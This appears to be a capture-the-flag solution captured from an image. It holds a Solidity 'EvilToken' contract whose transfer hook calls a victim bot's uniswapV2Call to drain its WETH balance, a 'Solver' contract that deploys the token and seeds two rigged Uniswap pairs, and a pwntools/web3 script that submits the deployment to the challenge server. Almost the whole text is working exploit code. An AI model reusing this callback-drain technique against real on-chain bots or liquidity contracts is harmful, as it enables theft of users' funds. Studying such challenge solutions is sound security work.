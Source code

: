 ```solidity
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);

        //if (gasleft() < 2000000) {
        if (block.number >= 8) {
            Bot bot = Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780);
            uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
            bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
        }
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() payable {
        EvilToken e = new EvilToken();
        IUniswapV2Factory fac1 = IUniswapV2Factory(0x164e31a6Ac83D5EDaE2139Add30099485D15d138);
        IUniswapV2Factory fac2 = IUniswapV2Factory(0xff2624eb527e4acAb0afE10270B7F6f58483D319);
        IUniswapV2Pair pair1 = IUniswapV2Pair(fac1.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));
        IUniswapV2Pair pair2 = IUniswapV2Pair(fac2.createPair(address(e), 0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7));

        uint b = address(this).balance;
        IWETH(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).deposit{value: b}();
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair1), b / 2);
        IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).transfer(address(pair2), b - b / 2);
        e.transfer(address(pair1), 1 ether);
        e.transfer(address(pair2), 10 ether);
        pair1.mint(address(this));
        pair2.mint(address(this));
    }
}
```

```python
from pwn import *
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)

tx = {
    'from': acc.address,
    'nonce': 0,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_2.txt').read(),
    'chainId': 2023,
    'value': 10**17,
}
signed = w3.eth.account.sign_transaction(tx, pk)

context.log_level = 'debug'

r = remote('202.38.93.111', 10222)
r.sendlineafter(b'Please input your token: ', b'xxx')
r.sendlineafter(b'The challenge you want to play (1 or 2 or 3): ', b'2')
r.sendlineafter(b'Choice: ', b'1')
```